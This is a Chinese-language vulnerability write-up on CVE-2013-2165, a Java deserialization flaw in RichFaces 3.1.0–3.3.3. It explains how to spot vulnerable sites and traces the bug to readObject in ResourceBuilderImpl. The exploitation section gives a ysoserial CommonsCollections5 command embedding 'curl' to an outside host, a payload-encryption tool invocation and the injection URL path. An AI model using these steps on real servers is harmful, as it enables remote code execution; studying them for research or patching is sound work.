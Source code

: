 # CVE-2013-2165
利用范围: 3.1.0 ≤ 3.3.3

richfaces-demo-3.3.3.Final-tomcat6.war包搭建成功

## 辨别

访问本地`/welcome.jsf`

观察网页会有以下特征

```
<script src="/a4j/g/3_3_3.Final/org/ajax4jsf/framework.pack.js.jsf" type="text/javascript">
```

## 利用

```
生成反序列化利用:
java -jar ysoserial.jar CommonsCollections5 "curl -v http://www.xxx.com/" > payload.bin

生成richfaces加密后的payload:
java -jar CVE-2013-2165.jar /Users/l3m0n/work/tools/java/payload.bin
```

![-w1436](media/15434847194066/15434904375531.jpg)

需要注意的是，payload前一定要是`DATA`，其中后缀`jsf`看网页html情况

```
http://localhost:8085/a4j/s/3_3_3.Finalorg/richfaces/renderkit/html/css/extended_both.xcss/DATA/[Payload替换位置].jsf
```

## 分析

漏洞主要位于: `richfaces-impl-3.3.3.Final.jar!/org/ajax4jsf/resource/ResourceBuilderImpl.class:221`

![-w1432](media/15434847194066/15434856321698.jpg)

整个流程也比较简单，请求`http://localhost:8085/a4j/s/3_3_3.Finalorg/richfaces/renderkit/html/css/extended_both.xcss/DATA/eAF7sqpgb-jyGdIAFrMEaw__.jsf`

会将`DATA`后面的数据(也就是`eAF7sqpgb-jyGdIAFrMEaw`)经过解密传入到`dataString`变量中，最后会进入readObject，要注意上图访问的是`DATB`，最后的返回是一个数组，没有进入反序列中。

